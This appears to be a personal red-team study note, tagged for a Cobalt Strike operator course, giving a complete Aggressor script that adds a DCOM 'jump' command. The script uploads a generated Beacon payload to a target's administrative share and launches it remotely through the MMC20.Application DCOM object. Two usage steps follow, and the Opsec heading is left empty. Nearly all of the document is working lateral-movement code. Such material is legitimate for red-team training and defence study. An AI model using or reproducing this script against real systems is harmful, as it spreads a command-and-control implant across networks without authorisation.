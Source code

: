 
Sample script of the Jump command integrating the usage of Powershell script `Invoke-DCOM.ps1`

Walkthrough of build this script: 
[[Jump + Invoke-DCOM Walkthrough]]

#### 🖊️ Script contents

```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);

```


#### 📔 Script Usage

1) Make sure to load the script via the Script Manger (_Cobalt Strike > Script Manager_).
2) The target machine will link when you run the new command

![[dcom.png]]



#### ⚠ Opsec




### Properties
---
📆 created   {{06-03-2024}} 15:18
🏷️ tags: #redteam #crto 

---

